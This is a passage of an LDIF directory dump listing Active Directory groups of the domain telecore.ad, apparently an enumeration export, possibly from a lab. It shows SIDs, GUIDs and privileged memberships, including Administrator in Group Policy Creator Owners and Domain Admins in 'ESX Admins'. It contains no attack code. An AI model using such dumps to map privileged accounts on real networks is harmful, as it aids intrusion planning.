 l features of Storage Replica.
distinguishedName: CN=Storage Replica Administrators,CN=Builtin,DC=telecore,DC
 =ad
instanceType: 4
whenCreated: 20250729074243.0Z
whenChanged: 20250729074243.0Z
uSNCreated: 8232
uSNChanged: 8232
name: Storage Replica Administrators
objectGUID:: GN6r9hsdlkuHWVeOV+ajUw==
objectSid:: AQIAAAAAAAUgAAAARgIAAA==
sAMAccountName: Storage Replica Administrators
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Domain Computers, Users, telecore.ad
dn: CN=Domain Computers,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Domain Computers
description: All workstations and servers joined to the domain
distinguishedName: CN=Domain Computers,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12330
uSNChanged: 12332
name: Domain Computers
objectGUID:: LRmoosUNNEqWvkYzdOlT9g==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaAwIAAA==
sAMAccountName: Domain Computers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Cert Publishers, Users, telecore.ad
dn: CN=Cert Publishers,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Cert Publishers
description: Members of this group are permitted to publish certificates to th
 e directory
member: CN=PKI-SRV,OU=Win Servers,DC=telecore,DC=ad
distinguishedName: CN=Cert Publishers,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250821075120.0Z
uSNCreated: 12342
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=telecore,DC=ad
uSNChanged: 44406
name: Cert Publishers
objectGUID:: ijzD6Yc1e0SdjzgnV3QktQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaBQIAAA==
sAMAccountName: Cert Publishers
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Domain Users, Users, telecore.ad
dn: CN=Domain Users,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Domain Users
description: All domain users
distinguishedName: CN=Domain Users,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12348
memberOf: CN=Users,CN=Builtin,DC=telecore,DC=ad
uSNChanged: 12350
name: Domain Users
objectGUID:: UihbPMtWuEGWVOX/kPsFCA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaAQIAAA==
sAMAccountName: Domain Users
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Domain Guests, Users, telecore.ad
dn: CN=Domain Guests,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Domain Guests
description: All domain guests
distinguishedName: CN=Domain Guests,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12351
memberOf: CN=Guests,CN=Builtin,DC=telecore,DC=ad
uSNChanged: 12353
name: Domain Guests
objectGUID:: 4Veqkb2clkuDnGpAA+bIFA==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaAgIAAA==
sAMAccountName: Domain Guests
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Group Policy Creator Owners, Users, telecore.ad
dn: CN=Group Policy Creator Owners,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Group Policy Creator Owners
description: Members in this group can modify group policy for the domain
member: CN=Administrator,CN=Users,DC=telecore,DC=ad
distinguishedName: CN=Group Policy Creator Owners,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12354
memberOf: CN=Denied RODC Password Replication Group,CN=Users,DC=telecore,DC=ad
uSNChanged: 12391
name: Group Policy Creator Owners
objectGUID:: FG57uja7bUWP3lnhGzcquw==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaCAIAAA==
sAMAccountName: Group Policy Creator Owners
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# RAS and IAS Servers, Users, telecore.ad
dn: CN=RAS and IAS Servers,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: RAS and IAS Servers
description: Servers in this group can access remote access properties of user
 s
distinguishedName: CN=RAS and IAS Servers,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12357
uSNChanged: 12359
name: RAS and IAS Servers
objectGUID:: Hv6WYD7seUClh3phQestJQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaKQIAAA==
sAMAccountName: RAS and IAS Servers
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Pre-Windows 2000 Compatible Access, Builtin, telecore.ad
dn: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Pre-Windows 2000 Compatible Access
description: A backward compatibility group which allows read access on all us
 ers and groups in the domain
member: CN=PKI-SRV,OU=Win Servers,DC=telecore,DC=ad
member: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=telecore,DC=ad
distinguishedName: CN=Pre-Windows 2000 Compatible Access,CN=Builtin,DC=telecor
 e,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250821075120.0Z
uSNCreated: 12366
uSNChanged: 44409
name: Pre-Windows 2000 Compatible Access
objectGUID:: sxEE0KuicEiNG2FkcZxTUg==
objectSid:: AQIAAAAAAAUgAAAAKgIAAA==
sAMAccountName: Pre-Windows 2000 Compatible Access
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Incoming Forest Trust Builders, Builtin, telecore.ad
dn: CN=Incoming Forest Trust Builders,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Incoming Forest Trust Builders
description: Members of this group can create incoming, one-way trusts to this
  forest
distinguishedName: CN=Incoming Forest Trust Builders,CN=Builtin,DC=telecore,DC
 =ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12369
uSNChanged: 12371
name: Incoming Forest Trust Builders
objectGUID:: OfpWSBRR2UGXKwscc2awgQ==
objectSid:: AQIAAAAAAAUgAAAALQIAAA==
sAMAccountName: Incoming Forest Trust Builders
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Windows Authorization Access Group, Builtin, telecore.ad
dn: CN=Windows Authorization Access Group,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Windows Authorization Access Group
description: Members of this group have access to the computed tokenGroupsGlob
 alAndUniversal attribute on User objects
member: CN=Exchange Servers,OU=Microsoft Exchange Security Groups,DC=telecore,
 DC=ad
member: CN=S-1-5-9,CN=ForeignSecurityPrincipals,DC=telecore,DC=ad
distinguishedName: CN=Windows Authorization Access Group,CN=Builtin,DC=telecor
 e,DC=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250910115233.0Z
uSNCreated: 12372
uSNChanged: 92704
name: Windows Authorization Access Group
objectGUID:: IUtJlD6x+UaWFLP9tRYY3g==
objectSid:: AQIAAAAAAAUgAAAAMAIAAA==
sAMAccountName: Windows Authorization Access Group
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Terminal Server License Servers, Builtin, telecore.ad
dn: CN=Terminal Server License Servers,CN=Builtin,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Terminal Server License Servers
description: Members of this group can update user accounts in Active Director
 y with information about license issuance, for the purpose of tracking and re
 porting TS Per User CAL usage
distinguishedName: CN=Terminal Server License Servers,CN=Builtin,DC=telecore,D
 C=ad
instanceType: 4
whenCreated: 20250729074338.0Z
whenChanged: 20250729074338.0Z
uSNCreated: 12375
uSNChanged: 12377
name: Terminal Server License Servers
objectGUID:: INy82SGro0mit+xiGh3uOg==
objectSid:: AQIAAAAAAAUgAAAAMQIAAA==
sAMAccountName: Terminal Server License Servers
sAMAccountType: 536870912
systemFlags: -1946157056
groupType: -2147483643
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250729074339.0Z
dSCorePropagationData: 16010714223649.0Z

# Allowed RODC Password Replication Group, Users, telecore.ad
dn: CN=Allowed RODC Password Replication Group,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Allowed RODC Password Replication Group
description: Members in this group can have their passwords replicated to all 
 read-only domain controllers in the domain
distinguishedName: CN=Allowed RODC Password Replication Group,CN=Users,DC=tele
 core,DC=ad
instanceType: 4
whenCreated: 20250729074339.0Z
whenChanged: 20250729074339.0Z
uSNCreated: 12402
uSNChanged: 12404
name: Allowed RODC Password Replication Group
objectGUID:: P+YdkZNtHUObpxy1N/x7gg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaOwIAAA==
sAMAccountName: Allowed RODC Password Replication Group
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Denied RODC Password Replication Group, Users, telecore.ad
dn: CN=Denied RODC Password Replication Group,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Denied RODC Password Replication Group
description: Members in this group cannot have their passwords replicated to a
 ny read-only domain controllers in the domain
member: CN=Read-only Domain Controllers,CN=Users,DC=telecore,DC=ad
member: CN=Group Policy Creator Owners,CN=Users,DC=telecore,DC=ad
member: CN=Domain Admins,CN=Users,DC=telecore,DC=ad
member: CN=Cert Publishers,CN=Users,DC=telecore,DC=ad
member: CN=Enterprise Admins,CN=Users,DC=telecore,DC=ad
member: CN=Schema Admins,CN=Users,DC=telecore,DC=ad
member: CN=Domain Controllers,CN=Users,DC=telecore,DC=ad
member: CN=krbtgt,CN=Users,DC=telecore,DC=ad
distinguishedName: CN=Denied RODC Password Replication Group,CN=Users,DC=telec
 ore,DC=ad
instanceType: 4
whenCreated: 20250729074339.0Z
whenChanged: 20250729074339.0Z
uSNCreated: 12405
uSNChanged: 12433
name: Denied RODC Password Replication Group
objectGUID:: 5FFRBiqwdk65SSRZoEF27g==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaPAIAAA==
sAMAccountName: Denied RODC Password Replication Group
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Enterprise Read-only Domain Controllers, Users, telecore.ad
dn: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Enterprise Read-only Domain Controllers
description: Members of this group are Read-Only Domain Controllers in the ent
 erprise
distinguishedName: CN=Enterprise Read-only Domain Controllers,CN=Users,DC=tele
 core,DC=ad
instanceType: 4
whenCreated: 20250729074339.0Z
whenChanged: 20250729074339.0Z
uSNCreated: 12429
uSNChanged: 12431
name: Enterprise Read-only Domain Controllers
objectGUID:: cI8DwmcpTU+3XmhJ0KuCtg==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxa8gEAAA==
sAMAccountName: Enterprise Read-only Domain Controllers
sAMAccountType: 268435456
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Cloneable Domain Controllers, Users, telecore.ad
dn: CN=Cloneable Domain Controllers,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Cloneable Domain Controllers
description: Members of this group that are domain controllers may be cloned.
distinguishedName: CN=Cloneable Domain Controllers,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074339.0Z
whenChanged: 20250729074339.0Z
uSNCreated: 12440
uSNChanged: 12442
name: Cloneable Domain Controllers
objectGUID:: jnz/wOSLX0u+TEZwPIqbig==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaCgIAAA==
sAMAccountName: Cloneable Domain Controllers
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Protected Users, Users, telecore.ad
dn: CN=Protected Users,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: Protected Users
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
distinguishedName: CN=Protected Users,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074339.0Z
whenChanged: 20250729074339.0Z
uSNCreated: 12445
uSNChanged: 12447
name: Protected Users
objectGUID:: spaPStXIBkumT9t3BJzxLw==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaDQIAAA==
sAMAccountName: Protected Users
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
isCriticalSystemObject: TRUE
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# DnsAdmins, Users, telecore.ad
dn: CN=DnsAdmins,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: DnsAdmins
description: DNS Administrators Group
distinguishedName: CN=DnsAdmins,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074418.0Z
whenChanged: 20250910115218.0Z
uSNCreated: 12486
uSNChanged: 92682
name: DnsAdmins
objectGUID:: Ip+qddEKD0iVNtuy/JX4ZQ==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaTQQAAA==
sAMAccountName: DnsAdmins
sAMAccountType: 536870912
groupType: -2147483644
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 16010714223233.0Z

# DnsUpdateProxy, Users, telecore.ad
dn: CN=DnsUpdateProxy,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: DnsUpdateProxy
description: DNS clients who are permitted to perform dynamic updates on behal
 f of some other clients (such as DHCP servers).
distinguishedName: CN=DnsUpdateProxy,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729074418.0Z
whenChanged: 20250729074418.0Z
uSNCreated: 12491
uSNChanged: 12491
name: DnsUpdateProxy
objectGUID:: 7KM8E4VJrkq04I58W1WQcw==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaTgQAAA==
sAMAccountName: DnsUpdateProxy
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# ESX Admins, Users, telecore.ad
dn: CN=ESX Admins,CN=Users,DC=telecore,DC=ad
objectClass: top
objectClass: group
cn: ESX Admins
member: CN=virt-admin,CN=Users,DC=telecore,DC=ad
member: CN=Domain Admins,CN=Users,DC=telecore,DC=ad
distinguishedName: CN=ESX Admins,CN=Users,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250729093126.0Z
whenChanged: 20250729123815.0Z
uSNCreated: 12901
uSNChanged: 13057
name: ESX Admins
objectGUID:: MeKrK2w4o0mjjsG8/vAQ2w==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaUgQAAA==
sAMAccountName: ESX Admins
sAMAccountType: 268435456
groupType: -2147483646
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250820100057.0Z
dSCorePropagationData: 20250820082653.0Z
dSCorePropagationData: 20250820082001.0Z
dSCorePropagationData: 16010101181633.0Z

# Organization Management, Microsoft Exchange Security Groups, telecore.ad
dn: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC=teleco
 re,DC=ad
objectClass: top
objectClass: group
cn: Organization Management
description: Members of this management role group have permissions to manage 
 Exchange objects and their properties in the Exchange organization. Members c
 an also delegate role groups and management roles in the organization. This r
 ole group shouldn't be deleted.
member: CN=Administrator,CN=Users,DC=telecore,DC=ad
distinguishedName: CN=Organization Management,OU=Microsoft Exchange Security G
 roups,DC=telecore,DC=ad
instanceType: 4
whenCreated: 20250910115135.0Z
whenChanged: 20250913133531.0Z
uSNCreated: 89709
uSNChanged: 100700
garbageCollPeriod: 1209600
name: Organization Management
objectGUID:: RKpI2q3br0G4oRMpIAzn/g==
objectSid:: AQUAAAAAAAUVAAAAb7uqXg+keRhaJxxaXwQAAA==
sAMAccountName: Organization Management
sAMAccountType: 268435456
managedBy: CN=Organization Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
managedObjects: CN=Security Administrator,OU=Microsoft Exchange Security Group
 s,DC=telecore,DC=ad
managedObjects: CN=Security Reader,OU=Microsoft Exchange Security Groups,DC=te
 lecore,DC=ad
managedObjects: CN=Compliance Management,OU=Microsoft Exchange Security Groups
 ,DC=telecore,DC=ad
managedObjects: CN=Hygiene Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
managedObjects: CN=Delegated Setup,OU=Microsoft Exchange Security Groups,DC=te
 lecore,DC=ad
managedObjects: CN=Server Management,OU=Microsoft Exchange Security Groups,DC=
 telecore,DC=ad
managedObjects: CN=Discovery Management,OU=Microsoft Exchange Security Groups,
 DC=telecore,DC=ad
managedObjects: CN=Records Management,OU=Microsoft Exchange Security Groups,DC
 =telecore,DC=ad
managedObjects: CN=Help Desk,OU=Microsoft Exchange Security Groups,DC=telecore
 ,DC=ad
managedObjects: CN=UM Management,OU=Microsoft Exchange Security Groups,DC=tele
 core,DC=ad
managedObjects: CN=Public Folder Management,OU=Microsoft Exchange Security Gro
 ups,DC=telecore,DC=ad
managedObjects: CN=View-Only Organization Management,OU=Microsoft Exchange Sec
 urity Groups,DC=telecore,DC=ad
managedObjects: CN=Recipient Management,OU=Microsoft Exchange Security Groups,
 DC=telecore,DC=ad
managedObjects: CN=Organization Management,OU=Microsoft Exchange Security Grou
 ps,DC=telecore,DC=ad
groupType: -2147483640
objectCategory: CN=Group,CN=Schema,CN=Configuration,DC=telecore,DC=ad
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115218.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 20250910115136.0Z
dSCorePropagationData: 16010101181633.0Z
msExchAddressBookFlags: 1
msExchVersion: 44220983382016
internetEncoding: 0
msExchUserAccountControl: 0
msExchProvisioningFlags: 0
msExchGroupDepartRestriction: 0
msExchModerationFlags: 6
msExchGroupMemberCount: 0
msExchGroupExternalMemberCount: 0
msExchGroupJoinRestriction: 0
msExchMailboxAuditEnable: FALSE
msExchMailboxFolderSet: 0
msExchTransportRecipientSettingsFlags: 0
msExchMDBRulesQuota: 256
msExchRoleGroupType: 1
msExchRecipientTypeDetails: 1073741824
msExchUserBL: CN=MyVoiceMail-Organization Management-Delegating,CN=Role Assign
 ments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurat
 ion,DC=telecore,DC=ad
msExchUserBL: CN=MyTextMessaging-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=MyTeamMailboxes-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=MyRetentionPolicies-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=MyProfileInformation-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=MyMailboxDelegation-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=MyDistributionGroups-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=MyDistributionGroupMembership-Organization Management-Delegat
 ing,CN=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Serv
 ices,CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=MyDiagnostics-Organization Management-Delegating,CN=Role Assi
 gnments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configur
 ation,DC=telecore,DC=ad
msExchUserBL: CN=MyContactInformation-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=MyBaseOptions-Organization Management-Delegating,CN=Role Assi
 gnments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configur
 ation,DC=telecore,DC=ad
msExchUserBL: CN=My ReadWriteMailbox Apps-Organization Management-Delegating,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=My Marketplace Apps-Organization Management-Delegating,CN=Rol
 e Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Co
 nfiguration,DC=telecore,DC=ad
msExchUserBL: CN=My Custom Apps-Organization Management-Delegating,CN=Role Ass
 ignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configu
 ration,DC=telecore,DC=ad
msExchUserBL: CN=WorkloadManagement-Organization Management,CN=Role Assignment
 s,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,
 DC=telecore,DC=ad
msExchUserBL: CN=WorkloadManagement-Organization Management-Delegating,CN=Role
  Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Con
 figuration,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Recipients-Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Recipients-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Configuration-Organization Management,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Configuration-Organization Management-Delegating,CN
 =Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,C
 N=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Audit Logs-Organization Management,CN=Role Assignme
 nts,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuratio
 n,DC=telecore,DC=ad
msExchUserBL: CN=View-Only Audit Logs-Organization Management-Delegating,CN=Ro
 le Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=C
 onfiguration,DC=telecore,DC=ad
msExchUserBL: CN=User Options-Organization Management,CN=Role Assignments,CN=R
 BAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=tel
 ecore,DC=ad
msExchUserBL: CN=User Options-Organization Management-Delegating,CN=Role Assig
 nments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configura
 tion,DC=telecore,DC=ad
msExchUserBL: CN=UserApplication-Organization Management-Delegating,CN=Role As
 signments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Config
 uration,DC=telecore,DC=ad
msExchUserBL: CN=Unified Messaging-Organization Management,CN=Role Assignments
 ,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,D
 C=telecore,DC=ad
msExchUserBL: CN=Unified Messaging-Organization Management-Delegating,CN=Role 
 Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Conf
 iguration,DC=telecore,DC=ad
msExchUserBL: CN=UnScoped Role Management-Organization Management-Delegating,C
 N=Role Assignments,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,
 CN=Configuration,DC=telecore,DC=ad
msExchUserBL: CN=UM Prompts-Organization Management,CN=Role Assignments,CN=RBA
 C,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configuration,DC=telec
 ore,DC=ad
msExchUserBL: CN=UM Prompts-Organization Management-Delegating,CN=Role Assignm
 ents,CN=RBAC,CN=Telecore Org,CN=Microsoft Exchange,CN=Services,CN=Configurati
 on,DC=telecore,DC=ad
msExchUserBL: CN=UM Mailboxes-Organization Management,CN=Role Assignments,CN=R
